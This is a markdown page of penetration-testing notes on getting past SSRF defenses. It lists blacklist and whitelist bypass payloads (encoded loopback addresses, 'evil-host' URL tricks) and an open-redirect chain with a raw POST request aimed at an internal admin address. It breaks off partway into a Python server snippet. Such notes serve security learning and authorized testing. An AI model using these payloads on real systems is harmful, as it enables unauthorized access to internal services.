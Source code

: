 
## Circumventing common SSRF defenses

{% code overflow="wrap" fullWidth="true" %}
```sh
######### SSRF with blacklist-based input filters
127.0.0.1 -> localhost 2130706433 017700000001 127.1
Register your own domain name that resolves to 127.0.0.1. You can use spoofed.burpcollaborator.net for this purpose. 
Obfuscate blocked strings using URL encoding or case variation -> http%3a//  aDmin 
Provides URL you control which redirects to target url (switching from an http: to https: URL during the redirect 
has been shown to bypass some anti-SSRF filters)


########## SSRF with whitelist-based input filters
# You can embed credentials in a URL before the hostname, using the @ character. For example:
https://expected-host:fakepassword@evil-host
# You can use the # character to indicate a URL fragment. For example:
https://evil-host#expected-host
# You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:
https://expected-host.evil-host
# You can URL-encode characters to confuse the URL-parsing code, also double URL encoding
# You can use combinations of these techniques together. 


########### Bypassing SSRF filters via open redirection
/product/nextProduct?currentProductId=6&path=http://evil-user.net
#  returns a redirection to:
http://evil-user.net
# Leverage open redirection to bypass the URL filter on another request and exploit SSRF:
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
EXAMPLE: find a request with path/url (Open Redirection vulnerability) and use that URI request
for a different request w/ parameters similar to the previous one that would accept it.
```
{% endcode %}

## Blind SSRF vulnerabilities

When you can issue a back-end HTTP request to a supplied URL, but the response from the back-end request is not returned in the application's front-end response.

Harder to exploit but sometimes leads to RCE on the server.

from http.server import SimpleHTTPRequestHandler, HTTPServer\
from urllib.parse import unquote\
class CustomRequestHandler(SimpleHTTPRequestHandler):

